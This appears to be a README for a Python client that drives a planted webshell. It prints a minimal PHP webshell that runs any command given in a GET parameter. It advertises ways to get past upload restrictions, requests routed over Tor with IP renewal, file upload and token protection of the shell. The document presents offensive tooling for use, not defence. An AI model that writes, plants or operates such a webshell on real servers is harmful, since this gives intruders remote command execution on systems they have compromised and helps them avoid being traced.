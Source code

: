 # Webshell client

A webshell client written in python.

Only works well for linux for the time being.

## Why?

Because there are too many heavy webshells. Sometimes there are restrictions in the file upload and heavy webshells won't work. By having a simple webshell and emulating from the client you can have a full featured webshell by having a remote shell like:

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```


## Features

- Supports POST/GET requests
- Supports token-password so that you can loosely protect from others performing requests on your webshell
- Supports the tor service and the tor-control service
   - Perform requests behind tor
   - Renew IP using the tor-control service
- Configuration file
- Command history
- File upload

## Configuration

To be documented

